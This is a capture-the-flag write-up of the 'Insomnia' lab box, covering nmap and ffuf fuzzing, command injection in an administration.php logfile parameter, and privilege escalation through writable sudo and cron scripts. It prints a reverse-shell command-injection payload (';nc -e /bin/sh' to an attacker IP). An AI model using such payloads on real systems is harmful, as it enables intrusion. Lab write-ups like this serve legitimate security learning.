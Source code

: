 ```yaml
---
layout: default
title : muzec - Insomnia Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/120119641-d340db00-c166-11eb-9134-b7fc3ec78f40.png)

A cool box that really let me to master ffuf and also learn something new on it again let hit it.

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
# Nmap 7.91 scan initiated Sun May 30 11:13:41 2021 as: nmap -p- -sC -sV -oA nmap 172.16.139.193
Nmap scan report for 172.16.139.193
Host is up (0.00020s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.3.19-1)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Chat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 30 11:13:50 2021 -- 1 IP address (1 host up) scanned in 9.53 seconds
```

We have only one open port which is 80 so we are hitting it.

![image](https://user-images.githubusercontent.com/69868171/120119745-75f95980-c167-11eb-8195-01e9c4383011.png)


A webchat intersting checking the source code we found the chat.js .

![image](https://user-images.githubusercontent.com/69868171/120119798-bce74f00-c167-11eb-9996-22f1b8d11cd3.png)

Nothing that can help use out so i decided to burst some directory with `ffuf` for some hidden directory.

![image](https://user-images.githubusercontent.com/69868171/120119881-1485ba80-c168-11eb-8214-1d2e21f7406b.png)

`ffuf` command that i use `ffuf -u http://172.16.139.193:8080/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e .txt,.php,.html -fw 1005` ok we have some directory especially the `administration.php` look interesting also check the other directory but got nothing .

![image](https://user-images.githubusercontent.com/69868171/120121967-1d7c8900-c174-11eb-8cfb-f98693aca874.png)

So i decided to Fuzz the endpoint maybe a way in i guess.

`ffuf -u http://172.16.139.193:8080/administration.php?FUZZ=test -w /usr/share/dirb/wordlists/big.txt -fw 12` and boom we got it `logfile` interesting right `http://172.16.139.193:8080/administration.php?logfile=` .

![image](https://user-images.githubusercontent.com/69868171/120122617-e7410880-c177-11eb-809f-14d04ed49f76.png)

Cool why not we try to input a reverse shell payload in the parameter since it always output what we put in the parameter no hard feeling in trying the first i try using was `nc -e /bin/sh 192.168.8.101 1337` but no luck so i try adding `;nc -e /bin/sh 192.168.8.101 1337` and boom we got shell.

![image](https://user-images.githubusercontent.com/69868171/120122770-e8266a00-c178-11eb-8b75-9e0d62547362.png)


![image](https://user-images.githubusercontent.com/69868171/120122779-f96f7680-c178-11eb-8d8d-15d1bb61cf8b.png)

Spawning a TTY shell `python -c 'import pty; pty.spawn ("/bin/bash")'`  now let move to the home directory and we have our first flag.

![image](https://user-images.githubusercontent.com/69868171/120122865-89adbb80-c179-11eb-808d-17d34d1c1167.png)

### Privilege Escalation

Checking `sudo -l` and seems we can run `/bin/bash /var/www/html/start.sh` on sudo with user `julia ` cool now let check the file yes we have write access to it so i add my payload and start an Ncat listener.

![image](https://user-images.githubusercontent.com/69868171/120123328-31c48400-c17c-11eb-8b5b-90bc48209ebd.png)

Running.

![image](https://user-images.githubusercontent.com/69868171/120123336-54ef3380-c17c-11eb-8453-8418f11566c8.png)

Now let go check our listener.

![image](https://user-images.githubusercontent.com/69868171/120123347-76501f80-c17c-11eb-9842-e598a9301195.png)

Boom now let check cronjob.

![image](https://user-images.githubusercontent.com/69868171/120123375-8f58d080-c17c-11eb-9761-59c75732aab9.png)

Let check if we have write access to it also.

![image](https://user-images.githubusercontent.com/69868171/120123397-aa2b4500-c17c-11eb-9000-0ebfe0d61e35.png)

Yes we do let repeat the same process we just did not long ago but we leave it to run on is own since it set on cronjob.

![image](https://user-images.githubusercontent.com/69868171/120123494-29b91400-c17d-11eb-87eb-41491e809381.png)

Boom we are root and we are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
